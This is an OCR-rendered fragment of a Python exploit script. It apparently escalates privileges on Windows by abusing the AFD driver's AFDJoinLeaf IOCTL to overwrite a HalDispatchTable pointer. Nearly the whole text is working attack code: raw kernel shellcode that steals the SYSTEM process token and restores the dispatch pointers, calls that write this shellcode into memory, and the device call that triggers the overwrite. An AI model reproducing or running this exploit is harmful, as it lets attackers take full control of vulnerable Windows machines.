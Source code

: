     restore_ptrs =   "\x31\xc0" + \
                     "\xb8" + struct.pack("L", HalpSetSystemInformation) + \
                     "\xa3" + struct.pack("L", HalDispatchTable0x8) + \
                     "\xb8" + struct.pack("L", HaliQuerySystemInformation) + \
                     "\xa3" + struct.pack("L", HalDispatchTable0x4)
    tokenstealing =  "\x52"                                 +\
                     "\x53"                                 +\
                     "\x33\xc0"                             +\
                     "\x64\x8b\x80\x24\x01\x00\x00"         +\
                     "\x8b\x40" + _KPROCESS                 +\
                     "\x8b\xc8"                             +\
                     "\x8b\x98" + _TOKEN + "\x00\x00\x00"   +\
                     "\x89\x1d\x00\x09\x02\x00"             +\
                     "\x8b\x80" + _APLINKS + "\x00\x00\x00" +\
                     "\x81\xe8" + _APLINKS + "\x00\x00\x00" +\
                     "\x81\xb8" + _UPID + "\x00\x00\x00\x04\x00\x00\x00" +\
                     "\x75\xe8"                             +\
                     "\x8b\x90" + _TOKEN + "\x00\x00\x00"   +\
                     "\x8b\xc1"                             +\
                     "\x89\x90" + _TOKEN + "\x00\x00\x00"   +\
                     "\x5b"                                 +\
                     "\x5a"                                 +\
                     "\xc2\x10"
    restore_token =  "\x52"                                 +\
                     "\x33\xc0"                             +\
                     "\x64\x8b\x80\x24\x01\x00\x00"         +\
                     "\x8b\x40" + _KPROCESS                 +\
                     "\x8b\x15\x00\x09\x02\x00"             +\
                     "\x89\x90" + _TOKEN + "\x00\x00\x00"   +\
                     "\x5a"                                 +\
                     "\xc2\x10"

    shellcode         = padding + restore_ptrs + tokenstealing
    shellcode_size    = len(shellcode)
    orig_size         = shellcode_size
    # Write shellcode in userspace (dep)
    kernel32.WriteProcessMemory(-1, shellcode_address_dep, shellcode,
                                       shellcode_size, byref(written))
    # Write shellcode in userspace *(nodep)
    kernel32.WriteProcessMemory(-1, shellcode_address_nodep, shellcode,
                                       shellcode_size, byref(written))
    ## Trigger Pointer Overwrite
    print "[*] Triggering AFDJoinLeaf pointer overwrite..."
    IOCTL             = 0x000120bb                # AFDJoinLeaf
    inputbuffer       = 0x1004
    inputbuffer_size  = 0x108
    outputbuffer_size = 0x0                       # Bypass Probe for Write
    outputbuffer      = HalDispatchTable0x4 + 0x1 # HalDispatchTable+0x4+1
    IoStatusBlock = c_ulong()
    NTSTATUS = ntdll.ZwDeviceIoControlFile(client,
                                           None,
                                           None,
                                           None,
                                           byref(IoStatusBlock),
                                           IOCTL,
                                           inputbuffer,
                                           inputbuffer_size,
                                           outputbuffer,
                                           outputbuffer_size
                                           )